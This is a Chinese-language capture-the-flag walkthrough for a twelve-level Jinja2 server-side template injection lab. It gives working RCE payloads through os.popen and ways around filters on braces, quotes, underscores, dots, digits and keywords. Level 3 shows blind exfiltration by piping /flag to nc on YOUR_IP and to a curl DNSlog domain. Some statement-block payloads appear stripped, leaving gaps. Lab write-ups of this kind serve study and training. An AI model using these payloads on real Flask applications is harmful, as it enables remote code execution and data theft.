






## Level 1 - 无 WAF (No WAF)

首先，编写 Python 脚本来查找可以用于 RCE（远程代码执行）的 Python 内建类及其索引：


找到可利用的类的索引后，使用该索引进行注入以执行命令：


-----

## Level 2 - 过滤 `{{` (['{{']])

如果目标过滤了 `{{`，但允许 `` 模板语句块，可以使用 `` 或其他语句块来执行代码。
![['\{\{'] 1](./images/ssti4.png)
![['\{\{'] 2](./images/ssti5.png)

-----

## Level 3 - 盲注 (No WAF and Bind / Blind SSTI)

当 SSTI 不能直接回显结果时（盲注），需要将命令执行结果外带。

首先，需要找到可利用的类的名字或索引。使用模板语法遍历 `__subclasses__` 查找 `Popen` 类（常用于执行外部命令）会更方便。

**方法一：使用 `nc` 反弹**

```jinja


{{ i.__init__.__globals__['os'].popen('cat /flag | nc YOUR_IP 8080').read() }}


```

*将 `YOUR_IP` 替换为你监听的服务器 IP。*

**方法二：使用 DNSlog 或 HTTP 请求外带**

```jinja


{{ i.__init__.__globals__['os'].popen('curl `cat /flag`.YOUR_DNSLOG_DOMAIN').read() }}


```

*将 `YOUR_DNSLOG_DOMAIN` 替换为你的 DNSlog 平台提供的域名，例如 `b5orv752.eyes.sh`。命令执行结果将作为子域名显示在 DNS 查询记录中。*

-----

## Level 4 - 过滤 `[` 和 `]` (['[', ']'])

如果中括号 `[` 和 `]` 被过滤，可以采用以下方法绕过：

  * **列表/元组索引:** 使用 `|first`, `|last`, `.pop()` 或 `.__getitem__(index)` 方法代替 `[index]`。
  * **字典键访问:** 使用 `.__getitem__('key')` 方法代替 `['key']`。
  * **属性访问:** 可以使用 `|attr('attribute_name')` 过滤器或 `.__getattribute__('attribute_name')` 方法代替 `.attribute_name`（虽然此题主要针对中括号）。

**综合利用 Payload:**

这个 Payload 使用 `.__getitem__()` 来替代索引和字典访问中的中括号，并寻找内置的 `eval` 函数来执行命令。

```jinja


{{ x.__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()') }}


```
![[‘[‘, ‘]’] 2](./images/ssti6.png)

-----

## Level 5 - 过滤引号 `''` 和 `""` ([''', '""'])

过滤了单引号和双引号时，可以通过以下方法绕过：

1.  **`request` 对象绕过:** Jinja2 模板通常可以访问 Web 框架（如 Flask）的 `request` 对象。可以将需要的字符串（如函数名 `'eval'`, `'os'`, 命令 `"ls /"` 等）放在 HTTP 请求的参数（GET/POST）、Cookie 或 Header 中，然后在模板中通过 `request.values.param_name`, `request.cookies.cookie_name`, `request.headers.header_name` 等方式获取，从而避免在模板代码中直接使用引号。
2.  **`chr()` 函数:** （如果可用）可以使用 `chr()` 函数将整数 ASCII 码转换为字符，通过拼接多个 `chr()` 调用来构造任意字符串。

**利用 `request` 对象 Payload:**

首先，使用脚本或手动探测找到可用的函数及其索引（例如找到 `eval`）。
![[‘\‘’, ‘“‘] 1](./images/ssti7.png)

然后构造注入 Payload，将需要的字符串通过 `request` 对象传入：

```jinja

```

在 HTTP 请求中（例如 POST body 或 URL query string）提供以下参数：

```
arg1=eval
arg2=__import__("os").popen("ls /").read()
```
![[‘\‘’, ‘“‘] 2](./images/ssti8.png)

-----

## Level 6 - 过滤下划线 `_` (['\_'])

过滤了下划线 `_` 时，可以使用编码或 `attr()` 过滤器配合 `request` 对象来绕过。

1.  **十六进制编码:** 在字符串中使用 `\x5f` 来代替 `_`。Python 在执行时会自动转义。

    ```jinja
    {{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][-1]["\x5f\x5fsubclasses\x5f\x5f"]()[258]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"].popen("cat flag").read()}}
    ```

    *执行时 `"\x5f\x5fclass\x5f\x5f"` 会变成 `__class__`。*

2.  **Unicode 编码:** 在 `attr()` 过滤器中使用 `\u005f` 代替 `_`。

    ```jinja
    {{ lipsum | attr("\u005f\u005fglobals\u005f\u005f") | attr("\u005f\u005fgetitem\u005f\u005f")("os") | attr("popen")("cat flag") | attr("read")() }}
    ```

    *`lipsum` 是 Jinja2 的一个内置函数/变量，可以通过 `|attr("__globals__")` 访问其全局命名空间，进而找到 `os` 模块。*

3.  **Base64 编码:** 将包含下划线的属性名进行 Base64 编码，在 `attr()` 中解码。

    ```jinja
    {{ () | attr('X19jbGFzc19f'.decode('base64')) | attr('X19iYXNlX18='.decode('base64')) | attr('X19zdWJjbGFzc2VzX18='.decode('base64'))() | attr('X19nZXRpdGVtX18='.decode('base64'))(258) | attr('X19pbml0X18='.decode('base64')) | attr('X19nbG9iYWxzX18='.decode('base64')) | attr('X19nZXRpdGVtX18='.decode('base64'))('os') | attr('popen')('cat flag') | attr('read')() }}
    ```

    *`'X19jbGFzc19f'.decode('base64')` 会解码得到 `__class__`。*

4.  **`attr()` 配合 `request` 对象:** 将包含下划线的属性名通过 `request` 对象传入。

    ```jinja
    {{ (x | attr(request.cookies.x1) | attr(request.cookies.x2) | attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5) }}
    ```

    在 HTTP 请求的 Cookie 中设置：

    ```
    x1=__init__; x2=__globals__; x3=__getitem__; x4=__builtins__; x5=__import__('os').popen('cat f*').read()
    ```

    *`x` 需要是模板上下文中一个可利用的对象实例。*
	![['_'] 1](./images/ssti9.png)
	![['_'] 2](./images/ssti10.png)

-----

## Level 7 - 过滤点号 `.` (['.'])

如果点号 `.` 被过滤，可以使用中括号 `[]` 访问属性/字典键，或者使用 `attr()` 过滤器。

1.  **`[]` 绕过:**

    ```jinja
    {{()['__class__']['__base__']['__subclasses__']()['__getitem__'](258)['__init__']['__globals__']['__getitem__']('os')['popen']('cat flag')['read']()}}
    ```

2.  **`attr()` 绕过:**

    ```jinja
    {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(258) | attr('__init__') | attr('__globals__') | attr('__getitem__')('os') | attr('popen')('cat flag') | attr('read')() }}
    ```

**直接使用模板语法注入 (使用 `[]` 替代 `.`):**

```jinja


{{ x['__init__']['__globals__']['popen']('cat /app/flag')['read']() }}


```

![['.'] 1](./images/ssti11.png)

-----

## Level 8 - 过滤关键字 (["class", "arg", "form", ...])

如果过滤了大量的关键字，如 `class`, `request`, `init`, `globals`, `popen`, `mro`, `base`, `attr` 等，可以尝试使用字符串拼接来绕过。

```jinja
{{ ()["__cla"+"ss__"]["__ba"+"se__"]["__ba"+"se__"]["__subcl"+"asses__"]()[133]["__in"+"it__"]["__glob"+"als__"]["po"+"pen"]("cat /app/flag")["re"+"ad"]() }}
```

*将关键字拆分并用 `+` 连接，使得过滤器无法匹配完整的关键字字符串。


-----

## Level 9 - 过滤数字 `0-9` (['0-9'])

如果过滤了所有数字 `0` 到 `9`，无法直接使用索引。可以采用以下方法：

1.  **使用模板循环语法:** 遍历 `__subclasses__()`，通过 `if` 判断类名或属性是否存在，避免使用索引。

    ```jinja
    {# 使用 eval #}
    
    
    {{ x.__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls").read()') }}
    
    

    {# 使用 Popen，配合 |last 替代 [-1] #}
    
    
    {{ i.__init__.__globals__.__getitem__('os').popen('cat flag').read() }}
    
    
    ```

2.  **利用 `lipsum` 等不需要索引的对象:** `lipsum` 全局变量可以直接访问其 `__globals__`。

    ```jinja
    {{ lipsum | attr("__globals__") | attr("__getitem__")("os") | attr("popen")("cat flag") | attr("read")() }}
    ```

3.  **构造数字:** 使用 Jinja2 的特性（如过滤器 `|join|count`）来构造所需的数字索引。

    ```jinja
    {# 构造数字 2 #}
    
    {# 构造数字 5 #}
    
    {# 构造数字 8 #}
    
    {# 拼接成字符串 "258" 并转换为整数 #}
    
    {# 使用构造的数字作为索引 #}
    {{ ().__class__.__base__.__subclasses__()[erwuba].__init__.__globals__['os'].popen('cat flag').read() }}
    ```


-----

## Level 10 - `config` 被覆盖 (set config = None)

如果目标应用显式地将 `config` 设置为 `None`，可能无法直接访问 `config` 变量。但是，可以通过其他 Jinja2 内置函数或对象的 `__globals__` 属性间接访问到应用实例（`current_app`）及其配置。

1.  **通过 `url_for`:**

    ```jinja
    {{ url_for.__globals__['current_app'].config }}
    ```

2.  **通过 `get_flashed_messages`:**

    ```jinja
    {{ get_flashed_messages.__globals__['current_app'].config }}
    ```


-----

## Level 11 - 复杂过滤组合 ([‘'‘, ‘“‘, ‘+’, ‘request’, ‘.’, ‘[‘, ‘]’])

当过滤了单引号、双引号、加号、`request`、点号、中括号等多种字符时，需要组合多种技巧，例如：

  * 使用 `set` 定义变量存储中间结果或构造的字符串。
  * 使用 `attr()` 过滤器替代点号 `.` 和中括号 `[]` 进行属性访问。
  * 通过 `dict(key=a)|join` 的方式构造字符串 "key"。
  * 通过 `(object|string|list)|attr('pop')(index)` 的方式获取字符串中的特定字符（如获取下划线）。
  * 拼接字符来构造所需的属性名和命令。

**构造步骤示例:**

1.  **确定基础 Payload (如果不过滤):**
    ```jinja
    {{ lipsum | attr("__globals__") | attr("__getitem__")("os") | attr("popen")("cat flag") | attr("read")() }}
    ```
2.  **构造 'pop' 字符串:**
    ```jinja
     {# pop = 'pop' #}
    ```
3.  **提取下划线 `_`:** 假设 `lipsum` 转字符串后第 18 个字符是 `_` (需要测试确定)。
    ```jinja
     {# xiahuaxian = '_' #}
    ```
4.  **构造 `__globals__` 和 `__getitem__`:**
    ```jinja
     {# globals = '__globals__' #}
     {# getitem = '__getitem__' #}
    ```
5.  **构造命令所需字符串:**
    ```jinja
     {# 获取空格，索引 9 需要测试 #}
     {# os = 'os' #}
     {# popen = 'popen' #}
     {# cat = 'cat' #}
     {# flag = 'flag' #}
     {# cmd = 'cat flag' #}
     {# read = 'read' #}
    ```
6.  **组合最终 Payload:**
    ```jinja
    
    
    
    
    
    
    
    
    {{(lipsum|attr(globals))|attr(getitem)(os)|attr(popen)(cmd)|attr(read)()}}
    ```

templates

*注意：上述构造方法中的索引（如 18, 9）和假设（如 `lipsum` 包含所需字符）需要根据实际目标环境进行测试和调整。变量 `a` 是为了在 `dict()` 中创建键值对，其值不重要。*

-----

## Level 12 - 终极过滤 ([‘\_’, ‘.’, ‘0-9’, ‘\\‘, ‘'‘, ‘“‘, ‘[‘, ‘]’])

当过滤了下划线、点号、数字、反斜杠、引号、中括号等几乎所有常用特殊字符时，需要在 Level 11 的基础上，增加数字构造的步骤。

例如，需要索引 `18` 时，可以这样构造：

```jinja
{# 构造数字 9 #}

{# 构造数字 18 #}
 {# 或者其他能凑出 18 的方法 #}
```

然后将 Level 11 中需要数字索引的地方（例如提取下划线时的 `attr(pop)(18)`）替换为构造出来的数字变量（`attr(pop)(eighteen)`）。

这种情况下，Payload 会变得极其冗长和复杂，但原理是利用 Jinja2 仅存的少量可用字符、函数和过滤器（如 `set`, `dict`, `|join`, `|count`, `|string`, `|list`, `|attr`, `~` 拼接符, `+` 算术符等）来逐步构建出执行命令所需的字符串和函数调用链。